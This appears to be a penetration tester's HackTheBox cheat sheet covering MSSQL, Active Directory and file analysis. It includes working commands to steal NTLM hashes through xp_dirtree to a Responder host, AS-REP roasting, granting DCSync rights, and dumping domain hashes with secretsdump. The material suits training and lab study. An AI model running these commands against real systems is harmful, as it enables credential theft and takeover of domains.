## IMPACKET - Mssqlclient.py

- Connect to remote sql db

		python ./mssqlclient.py reporting@10.10.10.125 -db volume -windows-auth

## SQLCMD
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

	sqlcmd -L
	sqlcmd -Q "select * from sys.databases"
	sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_agent"
	sqlcmd -E -S "WORKER\SQLEXPRESS" -Q "select * from sys.databases"

## Exploiting sql vuln
### Get the NTLM Hash from an accoutn using `XP_DirTree`

- Set up Responder on kali

		responder -I tun0
		(Check the firewall)

- Start the attack on the remote windows machine

		sqlcmd -Q "xp_dirtree '\\10.10.14.11\test'"

### Steal NTLM Hash from sql server
[HASHCAT](evernote:///view/154730691/s619/abde3799-29f6-bbe2-b038-8bd119e2604c/1d460891-63f3-60f9-1414-81daf5a18a5c/)

	sudo responder -I <interface> #Run that in other console
	SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

This stored procedure will display a list of every folder, every subfolder, and every file for path you give it.

- `Xp_dirtree` has three parameters:

	- directory – This is the directory you pass when you call the stored procedure; for example ‘D:Backup’.
	- depth – This tells the stored procedure how many subfolder levels to display. The default of 0 will display all subfolders.
	- file – This will either display files as well as each folder. The default of 0 will not display any files.

# Active Directory
## RECON WITH BLOODHOUND
https://adsecurity.org/?p=3658

### Basic commands

	bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
	neo4j start console
	bloodhound --no-sandbox

**Don't forget to look for the "first degree object control" and "transitive object control".**

### Manual method with csv files
https://0xdf.gitlab.io/2018/11/10/htb-reel.html

- Import the csv file into libreoffice
- Select all the columns and click the filters icons
- Then go to the view menu anc click on freeze first row
- Then we can analyse the data by filtering columns etc... We should look for dacls and write perms...

## RECON WITH POWERVIEW
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

- Upload powerview on the target machine

		. .\PowerView.ps1

		Get-NetUser | select cn
		Get-NetGroup -GroupName *admin*
		Get-NetShare
		Get-NetComputer -fulldata | select operatingsystem

## EXPLOIT AD vulns
### Abuse GenericWrite
https://chr0x6eos.github.io/2020/09/19/htb-Multimaster.html

	Evil-WinRM PS C:\Users\sbauer\Documents> Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
	GetNPUsers.py MEGACORP/jorden -format hashcat -no-pass -dc-ip 10.10.10.179

### DCSync exploitation (dev branch of PowerSploit)

- Create a user and put it in the right group to perform the attack (see bloodhound)

		net user John password /add
		net group "Domain Admins" testuser /ADD /DOMAIN

- Create PS object for credentials and use it for the attack with Add-DomainObjectAcl

		$pass = convertto-securestring 'michoux' -AsPlainText -Force
		$cred = New-Object System.Management.Automation.PSCredential('HTB\mich', $pass)
		Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity 'CN=mich,CN=users,DC=htb,DC=local' -Rights DCSync

- Use secretdump from impacket to expose the hashes

### Steal hashes from DC with IMPACKET - Secretdump.py (DC Sync)

Try to sync with the DC and get the hashes for every users. (need an account with the right permissions --> see bloodhound)

	./secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:password@10.10.10.175 -just-dc-ntlm

# Analyzing files / Reverse Engineering
## Extracting informations from `xls`, `doc` files with `OLETOOLS`.
[OLETOOLS(PYTHON)](https://github.com/decalage2/oletools)

Analyse xls, xlsm, doc and other files fron office ([Microsoft OLE2 files](http://en.wikipedia.org/wiki/Compound_File_Binary_Format))

	olevba.py file.xlsm

## Extract information from files with ExifTool 
https://github.com/exiftool/exiftool

- Extract metadata/properties from files (jpg, dll etc...)

		exiftool file

## To inspect `exe` files from linux with RADAR2
https://github.com/radareorg/radare2

## Analyzing DLL files with dnSPY (Commado Windows machine)

- Open dnSPY
- Open dll from the program
- Check for crypting functions.
- Get the keys and mode etc... to decrypt the password with an other tool
    - OR
    - Import the exe inside dnSPY and check where the  main script use the decrypt function.
    - Create a breakpoint (F9) and click on Start.
    - Put the db as arguments and copy/paste the db file into the current working folder.
    - Hit next and check the db for the password.

Check ippsec (cascade) video (around 40min)

## Get NTFS Extended Attributes
http://ntfs.com/ntfs-multiple.htm

We need to connect with smbclient from impacket because in Linux we don't have access to extended functions from NTFS.

- Connect to the share with smbclient.py and get access to the folder.

		smbclient -U C.Smith //10.10.10.178/share

- Enumerate hidden ntfs attributes

		allinfo "file.txt"

	

- Extract the hidden stream from the file

		get "file.txt":Password

